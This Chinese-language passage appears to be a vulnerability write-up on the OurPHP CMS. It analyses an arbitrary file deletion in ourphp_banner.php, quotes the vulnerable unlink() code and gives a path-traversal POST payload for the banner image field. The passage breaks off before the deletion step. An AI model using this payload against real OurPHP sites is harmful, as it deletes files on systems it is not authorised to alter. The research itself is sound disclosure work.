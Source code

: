 也懒得在linux上搭环境测试了，师傅们感兴趣的可以自行测试。





## 任意文件删除2

漏洞位于`client/manage/ourphp_banner.php`，我根据这个CMS中类似这样逻辑的功能可能还有几个，所以可能还有几个这样类似的任意文件删除。

从38行开始：

```php
}elseif ($_GET["ourphp_cms"] == "del"){

	if (strstr($OP_Adminpower,"35")){

		$ourphp_rs = $db -> select("`OP_Bannerimg`","`ourphp_banner`","where id = ".intval($_GET['id']));
		if($ourphp_rs[0] != ''){
			include './ourphp_del.php';
			ourphp_imgdel($ourphp_rs[0]);
		}
```

跟进`ourphp_imgdel`：

```php
function ourphp_imgdel($minimg = '',$maximg = '',$imgimg = ''){
	global $db;

	$ourphp_rs = $db -> select("`OP_Webfile`","`ourphp_webdeploy`","where id = 1");
	if($ourphp_rs[0] == 2){
		
		if($minimg != ''){
			if(strpos($minimg,"function/uploadfile") > 0){
				if (file_exists('../../'.$minimg)){
					unlink('../../'.$minimg);
				}
			}else{
				echo '';
			}
		}
```

注意到的`unlink('../../'.$minimg);`。这个`$minimg`是`$ourphp_rs[0]`，是从数据库中查出的。尚且不谈后台有一个执行任意SQL语句的东西。这个`$ourphp_rs[0]`也是有功能来修改的。

攻击：

先添加个banner:

```
POST /client/manage/ourphp_banner.php?ourphp_cms=add

OP_Bannerlang=cn&OP_Bannertitle=1&OP_Bannertext[]=&OP_Bannertext[]=&OP_Bannertext[]=&OP_Bannerimg=../function/uploadfile/../../../../../../../../../../../../../../../../../../../../../flag&OP_Bannerurl=http://&OP_Bannerclass=0&submit=%E6%8F%90+%E4%BA%A4
```
